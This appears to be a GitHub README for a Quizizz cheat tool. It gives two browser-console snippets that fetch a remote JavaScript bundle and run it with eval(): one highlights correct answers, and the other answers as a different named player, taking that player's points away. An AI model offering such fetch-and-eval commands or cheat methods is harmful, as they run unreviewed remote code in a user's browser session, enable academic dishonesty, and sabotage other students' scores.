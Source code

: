 
# Methods
## Fetching Quizizz API

It should work in Test and Classic mode.
1. Join Quiz
2. Open console and paste this
```ts
fetch("https://raw.githubusercontent.com/acimovicuwu/nijeNistaSumnjivo/master/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. You can now close the console. The good answers should be highlighted by background opacity.

## Sending answers as someone else

An alternative method is more invasive. Instead of fetching Quizizz API, it sends a random answer to a current question as a different user (consuming his answer); as a response, Quizizz returns a valid answer, which is then displayed to the user.

1. Join quiz, wait for first question, and open console
2. Paste this code to the console
```ts
fetch("https://raw.githubusercontent.com/gbaranski/quizizz-cheat/oldmethod/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. Enter the user name of any other player (the user won't get points even if they sent a valid answer).
4. Go to step 2
